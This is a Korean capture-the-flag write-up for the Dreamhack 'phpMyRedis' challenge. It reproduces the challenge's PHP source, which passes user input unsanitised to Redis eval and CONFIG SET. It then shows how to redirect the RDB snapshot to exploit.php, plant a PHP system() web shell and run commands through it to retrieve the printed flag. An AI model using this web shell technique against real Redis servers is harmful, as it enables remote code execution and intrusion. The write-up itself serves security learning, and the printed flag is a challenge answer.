문제는 **php로 redis를 관리하는 서비스 입니다. 취약점을 찾고 flag를 획득하세요!** 이다.  

# 문제 코드

## 1. index.php

```php
<?php
    include_once "./core.php";
?>
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">phpMyRedis</h1>
                    </div>
                    <div>
                        <div class="column is-2"><a href="/config.php" class="card-footer-item">Config</a></div>
                    </div>
                </div>
                <form method="post">
                    <div class="field">
                        <label class="label">Command</label>
                        <div class="control">
                            <textarea class="textarea" name="cmd"><?=isset($_POST['cmd'])?$_POST['cmd']:'return 1;'?></textarea>
                        </div>
                        <label class="checkbox">
                            <input type="checkbox" name="save">Save
                        </label>
                    </div>
                    <div class="control">
                        <input class="button is-success" type="submit" value="submit">
                    </div>
                </form>
                <?php 
                    if(isset($_POST['cmd'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        $ret = json_encode($redis->eval($_POST['cmd']));
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                        if (!array_key_exists('history_cnt', $_SESSION)) {
                            $_SESSION['history_cnt'] = 0;
                        }
                        $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
                        $_SESSION['history_cnt'] += 1;

                        if(isset($_POST['save'])){
                            $path = './data/'. md5(session_id());
                            $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret;
                            file_put_contents($path, $data);
                            echo "saved at : <a target='_blank' href='$path'>$path</a>";
                        }
                    }
                ?>
            </div>
        </div>
        <br/>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">Command History</h1>
                    </div>
                    <div class="column is-2"><a href="/reset.php" class="card-footer-item">Reset</a></div>
                </div>
                <div class="content">
                    <ul>
                    <?php
                        for($i=0; $i<$_SESSION['history_cnt']; $i++){
                            echo "<li>".$_SESSION['history_'.$i]."</li>";
                        }
                    ?>
                    </ul>
                </div>
            </div>
        </div>
    </body>
</html>
```

## 2. config.php

```php
<?php
    include_once "./core.php";
?>
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
            <div class="card-content">
                <div class="columns">
                    <div class="column is-10">
                        <h1 class="title">phpMyRedis</h1>
                    </div>
                    <div>
                        <div class="column is-2"><a href="/" class="card-footer-item">Command</a></div>
                    </div>
                </div>
                <form method="post">
                    <label class="label">Config</label>
                    <div class="field">
                        <div class="control">
                            <div class="select">
                                <select name="option">
                                    <option>GET</option>
                                    <option>SET</option>
                                </select>
                            </div>
                        </div>
                    </div>
                    <div class="field">
                        <label class="label">Key</label>
                        <div class="control">
                            <input class="input" type="text" name="key">
                        </div>
                    </div>
                    <div class="field">
                        <label class="label">Value</label>
                        <div class="control">
                            <input class="input" type="text" name="value">
                        </div>
                    </div>
                    <div class="control">
                        <input class="button is-success" type="submit" value="submit">
                    </div>
                </form>
                <?php 
                    if(isset($_POST['option'])){
                        $redis = new Redis();
                        $redis->connect($REDIS_HOST);
                        if($_POST['option'] == 'GET'){
                            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
                        }elseif($_POST['option'] == 'SET'){
                            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
                        }else{
                            die('error !');
                        }                        
                        echo '<h1 class="subtitle">Result</h1>';
                        echo "<pre>$ret</pre>";
                    }
                ?>
            </div>
        </div>
    </body>
</html>
```

## 3. core.php

```php
<?php 

$REDIS_HOST = 'localhost';
$REDIS_PORT = 6379;

ini_set('session.save_handler', 'redis');
ini_set('session.save_path', "tcp://$REDIS_HOST:$REDIS_PORT");
session_start();
```

## 4. reset.php

```php
<?php
    include_once "./core.php";
    session_destroy();
    header('Location: /');
?>
```

# 문제 경로

## 1. /

  

**Command** 를 입력할 수 있고, 아래에서 **결과** 및 **이전에 입력한 명령**을 볼 수 있다.  

  

## 2. /config

  

**GET**, **SET** 을 통해 각각 값을 가져오거나 설정하는 곳이다.  

# 풀이과정

우선 php, redis 를 처음봐서 익숙하지 않았다. 그래서 아래의 링크를 참고했다.  

[https://skitttles.me/posts/redis_webshell/](https://skitttles.me/posts/redis_webshell/)

우선 위의 문제 코드에서 봐야할 부분이 2가지 정도 있다.  

## 1. index.php 에서

```php
<?php 
    if(isset($_POST['cmd'])){
        $redis = new Redis();
        $redis->connect($REDIS_HOST);
        $ret = json_encode($redis->eval($_POST['cmd']));
        echo '<h1 class="subtitle">Result</h1>';
        echo "<pre>$ret</pre>";
        if (!array_key_exists('history_cnt', $_SESSION)) {
            $_SESSION['history_cnt'] = 0;
        }
        $_SESSION['history_'.$_SESSION['history_cnt']] = $_POST['cmd'];
        $_SESSION['history_cnt'] += 1;

        if(isset($_POST['save'])){
            $path = './data/'. md5(session_id());
            $data = '> ' . $_POST['cmd'] . PHP_EOL . str_repeat('-',50) . PHP_EOL . $ret;
            file_put_contents($path, $data);
            echo "saved at : <a target='_blank' href='$path'>$path</a>";
        }
    }
?>
```

**cmd** 에 입력한 명령을 ``$redis->eval()`` 에 넣어서 결과를 출력한다.  

**eval()** 은 **LUA Script**를 전달하여 실행하는 함수이다.  

```php
$redis = new Redis();
$redis->connect($REDIS_HOST);
$ret = json_encode($redis->eval("return redis.call('set','foo','bar')"));
$ret2 = json_encode($redis->eval("return redis.call('get','foo')")); // returns "bar"
$ret3 = json_encode($redis->eval("return 10")); // returns 10
```

위와 같이 예시를 들 수 있다.  

그리고 **save** 를 체크하면, ``data/파일명`` 에 결과를 저장한다.  

## 2. config.php 에서

```php
<?php 
    if(isset($_POST['option'])){
        $redis = new Redis();
        $redis->connect($REDIS_HOST);
        if($_POST['option'] == 'GET'){
            $ret = json_encode($redis->config($_POST['option'], $_POST['key']));
        }elseif($_POST['option'] == 'SET'){
            $ret = $redis->config($_POST['option'], $_POST['key'], $_POST['value']);
        }else{
            die('error !');
        }                        
        echo '<h1 class="subtitle">Result</h1>';
        echo "<pre>$ret</pre>";
    }
?>
```

선택한 **Option** 과 **key, value** 를 통해 값을 설정하거나 가져올 수 있다.  

  

위와 같이 **dir** 의 값을 알 수 있다.  

이는 **config()** 라는 함수에 의해 가능하다.  

```php
# Snapshot(RDB) 저장 주기 설정을 조회
$redis->config('GET', 'save');

# Snapshot(RDB) 저장 주기를 설정 (10초 동안 1회 이상 key 변경이 발생하면 저장)
$redis->config('SET', 'save', 10 1);

# Snapshot(RDB)이 저장되는 경로를 설정
$redis->config('SET', 'dir', '/var/www/html');

# Snapshot(RDB)이 저장되는 파일명을 설정
$redis->config('SET', 'dbfilename', 'shell.php');
```

위와 같이 **GET** 을 통해 값을 가져올 수 있고, **SET** 으로 값을 설정할 수 있다.  

여기서 **dir** 은 Snapshot 이 저장되는 경로이고, **dbfilename** 은 Snapshot 이 저장되는 파일명이다.  

이외에도 bind, port, maxmemory 와 같은 여러 설정 옵션이 있다고 한다.  

결론적으로 이 문제에서는 config 에서 GET, SET 을 통해 설정값을 바꿀 수 있으므로 이를 통해 **웹쉘을 업로드**할 수 있다.  

## 3. 본격적인 공격 및 redis 특징

  

위와 같이 **dbfilename** 이 **dump.rdb** 인 것을 알 수 있는데, 이를 원하는대로 바꿀 수 있다.  

  

그래서 위와 같이 **exploit.php** 로 바꾸었다.  

또한 Redis 는 다음과 같은 특성을 가지고 있다.(출처 : [https://minseosavestheworld.tistory.com/154](https://minseosavestheworld.tistory.com/154))  

- Redis는 **메모리에 데이터를 저장**하는 인 메모리(In-Memory) 데이터베이스이다.

- 휘발성이라는 메모리의 특징 때문에 종료 시 데이터가 유실되는데, 이러한 점을 보완하기 위해 **RDB(Redis DB) 라는 백업** 방식을 제공한다 (AOF도 있음)

- 데이터 손실 방지를 위해 **일정 시간마다** .rdb 확장자를 가진 **메모리 데이터를 파일 시스템에 저장**한다

- Redis는 명령어를 이용해 메모리 데이터를 저장하는 파일의 **저장 주기를 지정**하거나 **즉시 저장**할 수 있으며 저장되는 파일의 경로와 이름, 그리고 저장할 데이터를 함께 설정할 수 있다.

|설정 항목|설정값|설명|
|---|---|---|
|save|100 0|**100초** 동안 **0개의 쓰기** 발생 시 디스크에 데이터 복제 (**즉시 저장**)|
|save|300 10|**300초**(3분) 동안 **10개의 쓰기** 발생 시 디스크에 데이터 복제(저장)|
|save|60 10000|**60초** 동안 **10,000개의 쓰기** 발생 시 디스크에 데이터 복제(저장)|
|dbfilename|dump.rdb|**메모리 데이터 파일명** (기본적으로 dump.rdb)|
|dir|./|dump.rdb 파일 **저장 위치**|

  

그래서 위와 같이 즉시 저장하게끔 설정하면 **파일명**, **저장 경로**, **저장 주기** 를 모두 설정했다.  

``return redis.call("set", "test", "<?php system($_GET['cmd']); ?>");``

그리고 다음과 같이 위의 Command 를 주고 save 를 누른 상태로 전송하면, **dir** 경로에 **dbfilename** 으로 ``<?php system($_GET['cmd']); ?>`` 가 저장된다고 한다.  

  

그 다음에 ``http://host3.dreamhack.games:19850/exploit.php?cmd=ls`` 와 같이 입력하면 웹쉘에서 ``ls`` 를 실행해서 다음과 같이 결과를 볼 수 있다.  

  

``http://host3.dreamhack.games:19850/exploit.php?cmd=file%20/flag`` 를 통해 flag 가 어떤 파일인지 확인할 수 있고, 다음과 같이 실행파일이라는 것을 알 수 있다.  

  

마지막으로 ``http://host3.dreamhack.games:19850/exploit.php?cmd=/flag`` 와 같이 입력하면 웹쉘에서 ``flag`` 가 실행되고, flag 를 얻을 수 있다.  

  

따라서 정답은 **DH{97c08d732ca9ad65e35c8781ea3178f2d27bd726}** 이다.  